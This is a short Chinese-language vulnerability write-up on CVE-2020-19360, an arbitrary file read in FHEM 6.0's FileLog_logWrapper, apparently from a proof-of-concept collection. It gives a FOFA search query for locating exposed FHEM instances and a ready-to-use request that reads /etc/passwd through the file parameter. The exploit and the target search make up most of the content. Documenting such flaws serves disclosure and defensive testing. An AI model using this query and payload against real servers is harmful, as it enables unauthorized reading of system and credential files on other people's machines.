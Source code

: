 # Fhem FileLog_logWrapper 任意文件读取漏洞 CVE-2020-19360

## 漏洞描述

FHEM在6.0版本中存在文件包含漏洞，该漏洞源于允许FHEM/FileLog_logWrapper file参数允许攻击者包含文件，攻击者可以利用此漏洞导致敏感信息泄露。

## 漏洞影响

```
FHEM 6.0
```

## FOFA

```
title=="Home, Sweet Home"
```

## 漏洞复现

主页面

![image-20220524144941606](./images/202205241449644.png)

验证POC

```
/fhem/FileLog_logWrapper?dev=Logfile&file=%2fetc%2fpasswd&type=text
```

![image-20220524144955698](./images/202205241449759.png)